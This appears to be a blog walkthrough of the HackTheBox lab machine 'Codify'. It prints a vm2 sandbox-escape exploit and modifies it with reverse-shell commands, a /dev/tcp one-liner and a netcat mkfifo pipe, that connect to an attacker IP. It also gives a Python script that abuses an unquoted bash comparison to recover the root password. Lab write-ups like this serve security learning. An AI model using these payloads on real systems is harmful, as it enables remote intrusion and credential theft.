








+++ 
draft = false
date = 2023-09-13T13:07:16+01:00
title = "Codify HTB Walkthrough"
description = ""
slug = ""
authors = ["Dennis Drebitca"]
tags = ["Hash cracking", "JohnTheRipper", "Batch Script Analysis", "Python Scripting"]
categories = []
externalLink = ""
series = ["HTB"]
+++


The Codify HTB machine is a easy difficulty level HackTheBox Linux Machine. The main techniques used to crack this machine are:

    - Hash cracking with JohnTheRipper
    - Sandbox escape
    - Batch Script Analysis
    - Python Scripting

## Reconnaissance

I started by running a NMAP scan to look for services and versions running on open ports;



We can see that the usual ports 22 and 80 are open. However, port 3000 is also open running node.js, which could be useful in the future since node.js has some known vulnerabilities in older versions.

Addming codify.htb to our /etc/hosts, we can access the website and take a look.

The website is made of 3 pages:

	- About us - This page explained that Codify is a Node.js sandbox environment using the vm2 library to execute untrusted code safely.
	- Editor - A simple page with a text area to enter Node.js code and execute it.
	- Limitations - Notes restrictions like blocked access to certain modules like child_process and fs


In the 'editor' page, we can write and execute node.js code.

In the 'about us' page, we can see the references to vm2 sandboxing for code execution:



## Initial access

However, vm2 is not completely bulletproof. I found this exploit on GitHub:

https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac

The code is the following:

```js
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("echo hacked").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code)); // -> hacked
```

We can surely modify this script to get a reverse shell. However, it can be tricky because code execution is sandboxed and restricted.

My first attempt at getting the reverse shell went as follows: 

```js
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("bash -c "bash -i >& /dev/tcp/10.10.15.33/1234 0>&1"").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code)); // -> hacked
```

Which did't work. I messed around with different reverse shells, until I tried the following code:

```js
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.33 1234 >/tmp/f").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code)); // -> hacked
```

The command run to get the reverse shell has been found in the ironhacker.es website.


https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/

```sh
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.33 1234 >/tmp/f
```

This reverse shell code is very different from the usual. It uses the netcat utility to establish the connection. Then we run the following commands to get a full interactive TTY:



## Switching users to Joshua

Doing some recon, I've found some interesting files:



It looks like there is a mysql database. By browsing the tickets.db database, we get the user and hashed password for the user joshua.

]

The hash we obtained is the following. Using JohnTheRipper, we can crack the hash and get the plain text password. 

```c
$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```



Now, we can log in as Joshua and get the user flag.

## Privilege escalation

Launching pspy64 on the machine to see what processes are running, we discover that an interesting non-common script is being run as root.

```c

2023/11/06 11:14:33 CMD: UID=0     PID=69669  | sudo /opt/scripts/mysql-backup.sh 
2023/11/06 11:14:33 CMD: UID=1000  PID=69668  | /bin/sh -c echo perfect1 | sudo /opt/scripts/mysql-backup.sh 
2023/11/06 11:14:33 CMD: UID=0     PID=69671  | sudo /opt/scripts/mysql-backup.sh 
2023/11/06 11:14:33 CMD: UID=0     PID=69670  | sudo /opt/scripts/mysql-backup.sh 
2023/11/06 11:14:33 CMD: UID=0     PID=69673  | /usr/bin/echo 
```

The content of the script mysql-backup.sh is the following. It is a simple script that backups the mysql databases stored on the machine.

```bash
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'

```

At first, I tried a brute-force approach. Since there is no rate limiting, we can try as many passwords as we want to try and guess it.

```python
import subprocess

dictionary=open('/home/kali/SecLists/Passwords/Leaked-Databases/rockyou.txt','r')

for line in dictionary:
    output=subprocess.run(['echo',dictionary.readline(),'|','sudo','/opt/scripts/mysql-backup.sh'], check=True,stdout=subprocess.PIPE, universal_newlines=True)
    print(line)
    if output.stdout != 'Password confirmation failed!':
        print('Password is',line)
        break

```

This did not work because this brute-force approach is not right. The vulnerability lies in the comparison in the script. While researching potential security risks in Bash scripts, I discovered an unsafe practice in the MySQL bash script: unquoted variable comparison. 

So, the script interprets the input, and we can try a*, b*, c*..., guessing the password char by char. This python script does just that:

```python
import subprocess
import string

dictionary=list(string.ascii_letters + string.digits)
password=''
found=False
while found==False:
    for char in dictionary:
        command=f"echo '{password}{char}'* | sudo /opt/scripts/mysql-backup.sh"
        output=subprocess.run(command, shell=True,stdout=subprocess.PIPE, text=True).stdout
        if "confirmed" in output:
            print(password)
            password+=char
            break
    else:
        found=True

```

This is the output of the script in the command line:




And we get the password, which is:
```bash
kljh12k3jhaskjh12kjh3
```

Now we log in to the database to snoop around.

```bash
joshua@codify:/tmp/den$ /usr/bin/mysql -u "root" -h 0.0.0.0 -P 3306 -p"kljh12k3jhaskjh12kjh3"

```


```sh
mysql> SELECT Host, User, Password FROM user
    -> \g
+-----------+-------------+-------------------------------------------+
| Host      | User        | Password                                  |
+-----------+-------------+-------------------------------------------+
| localhost | mariadb.sys |                                           |
| localhost | root        | *4ECCEBD05161B6782081E970D9D2C72138197218 |
| 127.0.0.1 | root        | *4ECCEBD05161B6782081E970D9D2C72138197218 |
| %         | passbolt    | *63DA7233CC5151B814CBEC5AF8B3EAC43347A203 |
| %         | joshua      | *323A5EDCBFA127CC75F6C155457533AC1D5C4921 |
| %         | root        | *4ECCEBD05161B6782081E970D9D2C72138197218 |
+-----------+-------------+-------------------------------------------+
6 rows in set (0.00 sec)
```

There is a password hash for root, but I didn't manage to crack it this time. After some headaches, I realised that I never tried to log in as root using the password that I discovered with the python script. I put in the password for root and voilà, the machine is rooted.



## Conclusion

The codify machine is a good learning experience, demonstrating techniques like sandbox escape, password cracking, script analysis, brute forcing, and chaining multiple privilege escalation vectors.

Initial access was gained via escaping the vulnerable vm2 sandbox, using the netcat utility. Further enumeration revealed a information leakeage, leading to the compromise of the Joshua user.

The pivotal pivoting was accomplished analyzing the MySQL database backup script, whose weak password comparison logic made it possible to brute-force the admin password, gaining complete control of the system. 

This box exemplifies the importance of thinking broadly across multiple domains like web apps, databases, scripts, authentication, and system administration, to make sure that all layers in the system are properly secured.